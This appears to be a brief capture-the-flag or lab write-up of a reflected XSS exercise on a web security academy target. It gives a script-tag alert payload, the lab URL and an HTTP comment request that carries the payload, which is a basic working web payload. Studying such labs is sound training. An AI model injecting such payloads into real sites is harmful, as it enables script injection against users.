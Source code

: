 # Case 0: Lab: Reflected XSS into HTML context with nothing encoded

**Payload:** 
```js
<script>alert('xss')script</script>
```
**Affected Locations:**
```
https://0d7.web-security-academy.net/post?postId=2
```
**Request:**
```http
POST /post/comment HTTP/2
Host: 0ad0008304c4af2b80516762005400d7.web-security-academy.net

...Omitted for Brevity...

csrf=Tox0asbtJx9ysgwuCQuXz5ItWKaMNAQz&postId=2&comment=<script>alert('xss')</script>&name=test&email=test@test.com&website=http://test.com
```
